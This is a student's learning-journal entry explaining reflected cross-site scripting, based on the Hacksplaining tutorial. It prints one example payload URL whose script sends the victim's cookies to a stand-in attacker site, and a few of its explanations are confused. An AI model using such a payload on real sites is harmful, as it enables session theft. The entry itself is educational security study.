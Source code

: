 # Entry #6: Another Part of XSS and Needing To Speed Things up
Time is running out and there is still so many more topics to learn about! What should I do? Read on to find out! (O u O)/

##### Some Side Notes: 
If you would like to follow along with what you will read in my entry, click on this link: [Hacksplaining: Reflected XSS](https://www.hacksplaining.com/exercises/xss-reflected#). 

When you click on the link, you will notice that there are circles on the top-left corner. Those circles are like the steps or slides of a presentation. You can click on them to go back and forward.  

![circles](../images/reflected-xss/circles.png)  

## Connection 
**_(circles 1+2)_**

* This topic is connected to cross-site scripting, which gives attackers a way to use malicious JavaScript in programmer’s database. By doing so, the code is executed when user goes to site  
* Another method of attackers using XSS to use malicious JavaScript is called Reflected XSS attack.   

## How It Happens 
**_(circle 3)_**

If a website uses HTTP to execute user’s request and shows the results in return, then is would be opening a way for attackers to use their JavaScript on it. 

**_(circle 4-11)_**

* Mal (attacker) sees that a website uses the aspect of putting search terms into the URL. 
* Mal knows that search terms will be shown in the URL of the results page → www.welp.com?search=taco (```taco``` is the parameter value for ```search```)  
* Mal tries to infiltrate the site by making a URL with a section of JavaScript that can help him → ```www.welp.com?search=<script>window.location="http://www.haxxed.com?cookie="+document.cookie</script>``` (in parameter of search )    
* When the URL and his JavaScript runs in the user's browser, this leads to his/her browser going to Mal's malicious site.  
* Once he was able to be successful, his next step would be to fool someone else to do what he just did, but without knowing that it is not suppose to happen in his favor 

**Steps That Mal Takes:** 
1) Send email to Vic (innocent user) in attempt to have him click on the link that catches his attention 
2) When the link is clicked by Vic, the page/browser processes the HTML “without escaping it properly” and instead, have it process the script tag that Mal injected.  
    * “without escaping it properly” → Have the code language not transition into another one
        * Mr. Mueller’s example: ```<p> <%  > </p> ``` 
        * The ```>``` for the Ruby section (```<% >```)  
            * Without % → goes from HTML to Ruby and then back to HTML, but the closing tag for Ruby stays the same as the HTML one → letting Mal’s code run in browser  
3) Once page loads, Mal’s script is ran and as a result, Vic’s browser displays Mal’s malicious site instead of the one that he was expecting to see.  
    * With Vic fooled and lead to the malicious site, Mal gains the ability to see Vic’s server log 

## Takeaways
**Use the people around you as resources.** For me, when I was learning about the method Mal would use so that the program is tricked into reading his malicious code, I was confused by the phrase, “escaping properly”. While knowing that Mr. Mueller has encountered this kind of obstacle before (with a link/URL), I went ahead and asked him to see if he understood what it means. It is kind of awesome that one’s struggle and success in something can lead to another person successfully tackle their own obstacle(s). 

## Next Steps 
* There are many more topics that I can learn about in this website, but time running out. What should I do? Well, from skimming through the topic names, I have noticed that cross-site scripting (XSS) is mentioned four times: Cross-Site Scripting, Cross-Site Request Forgery, Reflected XSS, and DOM-Based XSS. With these things in mind, my plan for now would be to learn the “last part” of XSS and then see if I I can make a MVP.  
* **MAKE A MVP BY _NEXT WEEK_!!!**  
* MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP   





